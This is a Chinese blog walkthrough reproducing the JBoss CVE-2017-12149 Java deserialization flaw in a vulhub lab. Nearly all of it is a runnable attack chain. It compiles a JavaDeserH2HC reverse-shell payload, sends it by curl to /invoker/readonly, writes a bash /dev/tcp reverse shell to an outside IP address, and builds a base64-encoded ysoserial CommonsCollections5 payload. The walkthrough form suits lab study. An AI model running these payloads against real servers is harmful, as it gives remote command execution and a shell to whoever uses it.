



# JBoss 5.x/6.x 反序列化漏洞（CVE-2017-12149）复现 - 小丸子 3689 - 博客园

> 原文：[`www.cnblogs.com/ffx1/p/12653543.html`](https://www.cnblogs.com/ffx1/p/12653543.html)

### 0x00 漏洞介绍

该漏洞为 Java 反序列化错误类型，存在于 Jboss 的 HttpInvoker 组件中的 ReadOnlyAccessFilter 过滤器中。该过滤器在没有进行任何安全检查的情况下尝试将来自客户端的数据流进行反序列化，从而导致了漏洞。
该漏洞出现在/invoker/readonly 请求中，服务器将用户提交的 POST 内容进行了 Java 反序列化：



### 0x01 环境搭建

vulhub 上一键搭建：[`github.com/vulhub/vulhub/tree/master/jboss/CVE-2017-12149`](https://github.com/vulhub/vulhub/tree/master/jboss/CVE-2017-12149)


### 0x02 漏洞复现

#### 方法一：现成的 exp 工具

`git clone https://github.com/yunxu1/jboss-_CVE-2017-12149`


（请忽略虚拟机乱码问题）

#### 方法二：使用 JavaDeserH2HC 工具

进入 JavaDeserH2HC 工作目录：

```
javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java
java -cp .:commons-collections-3.2.1.jar  ReverseShellCommonsCollectionsHashMap ip:port //反弹 shell 的 IP 和端口
此时会在当前目录生成 ReverseShellCommonsCollectionsHashMap.ser 二进制文件
curl http://127.0.0.1:8080/invoker/readonly --data-binary @ReverseShellCommonsCollectionsHashMap.ser 
```

反弹 shell：


#### 方法三：常规方法

漏洞是因为接口`/invoker/readonly`将用户传入的 post 数据进行了反序列化导致的，所以我们先来构造反序列化语句。

##### 编写反弹 shell 语句

`bash -i >& /dev/tcp/49.233.44.168/12345 0>&`
程序是 java 的，`Runtime.getRuntime().exec()`语句中不能包含管道符等，所以需要将反弹 shell 语句编码
编码网站：[`www.jackson-t.ca/runtime-exec-payloads.html`](http://www.jackson-t.ca/runtime-exec-payloads.html)



利用`ysoserial` 生成反序列化语句

```
java -jar ysoserial.jar CommonsCollections5 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4wLjAuMS8yMSAwPiYx}|{base64,-d}|{bash,-i}" > poc.ser 
```

通过 POST 包发送 poc，右键 paste from file 将生成的 poc.ser 文件导入 post 包：


反弹 shell
